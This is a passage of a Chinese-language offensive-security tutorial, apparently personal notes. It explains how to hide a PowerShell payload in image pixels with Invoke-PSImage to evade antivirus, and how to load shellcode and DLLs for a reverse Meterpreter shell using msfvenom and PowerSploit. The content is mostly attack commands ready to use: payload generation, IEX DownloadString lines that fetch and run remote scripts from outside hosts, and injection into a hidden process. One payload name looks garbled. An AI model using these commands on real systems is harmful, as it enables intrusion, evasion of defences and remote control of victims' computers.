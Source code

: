 还有一款通过图片免杀执行powershell的脚本Invoke-PSImage.ps1，主要把payload分散存到图片的像素中,最后到远端执行时,再重新遍历重组像素中的payload执行。

    参考资料：https://github.com/peewpw/Invoke-PSImage

在利用的时候需要准备一张足够大的图片。我用的是1900*1200的图片x.jpg。

        C:\>powershell    

        PS C:\> Import-Module .\Invoke-PSImage.ps1    

        PS C:\> Invoke-PSImage -Script .\a.ps1 -Image .\x.jpg -Out .\reverse_shell.png -Web    

a.ps1是msf木马，-Out 生成reverse_shell.png图片，-Web 输出从web读取的命令。



并将reverse_shell.png移动至web目录，替换url地址。在powershell下执行即可。



加载shellcode、dll、exe
在《web安全攻防》书里有利用 PowerSploit 脚本加载shellcode、dll反弹meterpreter shell的方法。我把之前的笔记放在这里。

1.加载shellcode

msfvenom生成脚本木马

        msfvenom -p windows/x64/meterpreter/reverse_httf18ps LHOST=192.168.72.164 LPORT=4444 -f powershell -o /var/www/html/test     

在windows靶机上运行一下命令

        IEX(New-Object Net.WebClient).DownloadString("http://144.34.xx.xx/PowerSploit/CodeExecution/Invoke-Shellcode.ps1")    

        IEX(New-Object Net.WebClient).DownloadString("http://192.168.72.164/test")    

        Invoke-Shellcode -Shellcode ($buf) -Force  运行木马    

使用Invoke-Shellcode.ps1脚本执行shellcode

即可反弹meterpreter shell



2.加载dll

使用msfvenom 生成dll木马脚本

        msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.72.164 lport=4444 -f dll -o /var/www/html/test.dll    

将生成的dll上传到目标的C盘。在靶机上执行以下命令

        IEX(New-Object Net.WebClient).DownloadString("http://144.34.xx.xx/PowerSploit/CodeExecution/Invoke-DllInjection.ps1")    

        Start-Process c:\windows\system32\notepad.exe -WindowStyle Hidden     

创建新的进程启动记事本，并设置为隐藏

        Invoke-DllInjection -ProcessID xxx -Dll c:\test.dll 使用notepad的PID     

使用Invoke-DLLinjection脚本，启动新的进程进行dll注入(没有杀毒软件)

